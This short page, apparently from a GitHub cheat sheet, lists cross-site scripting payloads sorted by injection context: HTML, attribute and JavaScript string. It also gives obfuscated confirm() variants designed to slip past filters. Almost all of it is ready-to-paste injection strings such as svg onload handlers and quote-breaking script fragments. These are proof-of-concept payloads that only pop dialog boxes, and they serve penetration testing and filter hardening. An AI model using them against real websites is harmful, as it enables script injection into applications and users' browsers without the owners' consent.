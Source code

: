 Some HTML Tags that you will be using
```
img
svg
body
html
embed
script
object
details
isindex
iframe
audio
video
```

### Awesome Context Breaking

#### HTML Context
Case: `<tag>You searched for $input. </tag>`

```
<svg onload=alert()>
</tag><svg onload=alert()>
```

#### Attribute Context

Case: `<tag attribute="$input">`

```
"><svg onload=alert()>
"><svg onload=alert()><b attr="
" onmouseover=alert() "
"onmouseover=alert()//
"autofocus/onfocus="alert()
```
#### JavaScript Context

Case: `<script> var new something = '$input'; </script>`

```
'-alert()-'
'-alert()//'
'}alert(1);{'
'}%0Aalert(1);%0A{'
</script><svg onload=alert()>
```

### Awesome Confirm Variants
Yep, confirm because alert is too mainstream.
```
confirm()
confirm``
(confirm``)
{confirm``}
[confirm``]
(((confirm)))``
co\u006efirm()
new class extends confirm``{}
[8].find(confirm)
[8].map(confirm)
[8].some(confirm)
[8].every(confirm)
[8].filter(confirm)
[8].findIndex(confirm)
```